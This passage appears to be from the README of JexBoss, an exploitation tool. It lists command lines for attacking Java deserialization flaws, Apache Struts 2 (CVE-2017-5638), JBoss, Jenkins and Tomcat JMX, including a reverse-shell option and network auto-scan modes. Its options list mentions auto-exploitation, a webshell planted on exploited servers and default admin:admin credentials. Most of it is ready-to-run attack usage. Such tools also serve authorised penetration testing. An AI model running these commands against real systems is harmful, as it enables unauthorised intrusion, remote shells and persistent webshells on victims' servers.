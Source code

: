 * For Java Deserialization Vulnerabilities in a custom HTTP parameter and to make a reverse shell (this will ask for an IP address and port of your remote host):
```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name
```

* For Java Deserialization Vulnerabilities in a Servlet (like Invoker):
```
$ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize
```

* For Apache Struts 2 (CVE-2017-5638)
```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
```

* For Apache Struts 2 (CVE-2017-5638) with cookies for authenticated resources
```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2 --cookies "JSESSIONID=24517D9075136F202DCE20E9C89D424D"
```

* Auto scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
```

* File scan mode:
```
$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
```

* More Options:

```
optional arguments:
  -h, --help            show this help message and exit
  --version             show program's version number and exit
  --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                        PERMISSION!!!)
  --disable-check-updates, -D
                        Disable two updates checks: 1) Check for updates
                        performed by the webshell in exploited server at
                        http://webshell.jexboss.net/jsp_version.txt and 2)
                        check for updates performed by the jexboss client at
                        http://joaomatosf.com/rnp/releases.txt
  -mode {standalone,auto-scan,file-scan}
                        Operation mode (DEFAULT: standalone)
  --app-unserialize, -j
                        Check for java unserialization vulnerabilities in HTTP
                        parameters (eg. javax.faces.ViewState, oldFormData,
                        etc)
  --servlet-unserialize, -l
                        Check for java unserialization vulnerabilities in
                        Servlets (like Invoker interfaces)
  --jboss               Check only for JBOSS vectors.
  --jenkins             Check only for Jenkins CLI vector.
  --jmxtomcat           Check JMX JmxRemoteLifecycleListener in Tomcat
                        (CVE-2016-8735 and CVE-2016-8735). OBS: Will not be
                        checked by default.
  --proxy PROXY, -P PROXY
                        Use a http proxy to connect to the target URL (eg. -P
                        http://192.168.0.1:3128)
  --proxy-cred LOGIN:PASS, -L LOGIN:PASS
                        Proxy authentication credentials (eg -L name:password)
  --jboss-login LOGIN:PASS, -J LOGIN:PASS
                        JBoss login and password for exploit admin-console in
                        JBoss 5 and JBoss 6 (default: admin:admin)
```